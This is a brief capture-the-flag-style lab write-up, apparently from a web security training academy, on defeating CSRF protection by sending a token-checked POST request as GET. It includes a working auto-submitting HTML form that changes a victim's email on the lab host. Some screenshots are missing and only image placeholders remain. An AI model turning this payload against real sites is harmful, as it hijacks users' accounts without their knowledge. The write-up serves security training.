


# **CSRF where token validation depends on request method**

This lab main point is changing the request method to trick the CSRF protection. If we do the request with post as the form is programmed, changing the csrf token:



But if we do a GET request:

We get a redirect that will eventually change the email:



Then you can serve the victim with a form that submits to the correct URL, remember the default method for form is GET that is why is not specified in the code:

```
<form action="https://0a9500f103b6349581dbbb4d00c500be.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything@web-security-academy.net">
    <input type="hidden" name="_method" value="POST">
</form>
<script>
        document.forms[0].submit();
</script>
```
